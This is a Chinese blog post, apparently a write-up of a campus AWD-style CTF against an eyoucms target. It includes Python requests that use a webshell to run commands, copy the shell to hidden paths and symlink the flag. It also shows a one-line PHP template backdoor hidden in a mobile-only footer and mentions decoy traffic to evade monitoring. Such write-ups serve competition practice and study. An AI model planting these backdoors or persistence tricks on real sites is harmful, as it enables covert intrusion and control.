```yaml
---
title: 一次校内 AWD 简记
date: 2023-12-08 15:54:29
categories: CTF
tags: [CTF]
url: /school-awd-note/
---
```


先说下赛制，是校内打着玩儿的 AWD，一个周开放一个关卡。第一个是 eyoucms，第二个是奇怪的 php，看起来像是自己写的，第三个是 python ssti，最后一个没看（考研去了）。

单说技术含量上说感觉并没有，题目都比较基础。不过这次时间比较长，实践了一下之前的一些想法，值得记录一下。

## 关卡一

### 基本利用

根目录有个后门 404.php，直接利用。

先 cp 一份到`.404.php`，防一部分没看到隐藏文件的。

再 cp 一份到 `static/api/js/.404.php`，防一部分懒得看静态文件夹的。

最后把 `/flag` 软链接到 `static/api/js/link.js`，这个大多数人都没发现。

```python
# 复制 404.php 到 .404.php
res = requests.get(f'http://{ip}:{port}/404.php?M=system("cp 404.php .404.php");')
# 复制 404.php 到 static/api/js/.404.php
res = requests.get(f'http://{ip}:{port}/.404.php?M=system("cp 404.php static/api/js/.404.php");')
# 软链接 /flag 到 /var/www/html/static/api/js/link.js
res = requests.get(f'http://{ip}:{port}/.404.php?M=system("ln -s /flag static/api/js/link.js");')
```

好了，这一套连招下来基本可以了。不过后来复盘觉得这里还是写个加密马比较好，至少 md5 校验一下。后面很多队伍发现我们这套直接打我们放的后门了。

### session 泄露

后来又发现一个洞[前台 session 泄露](https://www.cnblogs.com/Pan3a/p/14880225.html)。其实按照题目的 eyoucms 版本没有这个洞，我总感觉不对劲，去把源码下下来 diff 了一下，发现出题人把修复给删了。

这个洞基本全能打，估计没人发现，不过后来有人利用后门把`index.php`删了（不是本人），本意估计是让别人宕机，结果我那个洞要用`index.php`，歪打正着把我给防住了，郁闷。

打的过程中发现有人上了通防（watchbird），还把特殊字符都禁用了，很烦。

不过还是能打，前台 session 泄露拿到管理员权限之后把模板加一段后门。

```php
{eyou:php}
$_GET[a]($_GET[b].$_GET[c])
{/eyou:php}
```

我是加在`mobile/footer.html`的，要 mobile UA 才会返回，而且在页面最下面。估计很多上了流量监控的人也纳闷我这个咋没打通，LOL。说到流量监控，为了防止我这套被发现，我还打了一堆垃圾流量过去，谨慎！
